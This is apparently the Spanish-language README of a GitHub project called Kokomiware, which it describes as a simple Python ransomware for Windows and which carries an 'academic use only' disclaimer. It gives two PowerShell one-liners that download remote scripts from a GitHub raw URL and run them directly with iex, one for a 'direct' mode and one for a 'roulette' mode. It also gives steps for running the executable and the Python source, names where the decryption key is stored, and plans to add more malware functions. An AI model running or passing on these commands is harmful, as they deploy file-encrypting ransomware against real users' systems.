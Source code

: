 # Kokomiware 

## ¿Que es?
Kokomiware es un simple ransomware hecho en python.

## Advertencia
Este software esta bajo la licenia GPLV3, bajo ninguna circunstancia deber ser utilizado con malos fines, su proposito es meramente academico, para el estudio y desarrollo de malware. Me deslindo de cualquier mal uso que se le pueda dar.

## Uso

**Kokomiware esta pensado solo para funcionar en sistemas operativos de windows, pero podria adaptarse a sistemas UNIX**<br>
<br>
- One line en powershell para el modo directo
```powershell
irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/direct.ps1 | iex
```
- One line en powershell para el modo ruleta
```powershell
irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/roulette.ps1 | iex
```

- Uso normal en CLI con el ejectuable.
```powershell
.\kokomiware.exe
```
- Desarrollo<br>

Recomiendo usar un entorno virtual de python

```console
#Instalando dependecias y ejecutando el codigo
$ pip install -r requirements.txt
$ python krr-fernet.py
```
## Desencriptar archivos

Caracteristica en construccion...<br>
Llave en: `$env:temp\snmgy.png`

## Lista de cosas por hacer
- [ ] Optimizar tiempos de ejecucion en python.
- [ ] Crear version para C o C++.
- [ ] Añadir mas funciones de malware.
- [ ] Crear diseño de ejecucion por fases.

## Inspiracion:
- [Sangonomiya Kokomi](https://genshin-impact.fandom.com/wiki/Sangonomiya_Kokomi) (Uno de mis personajes favoritos de Genshin Impact)
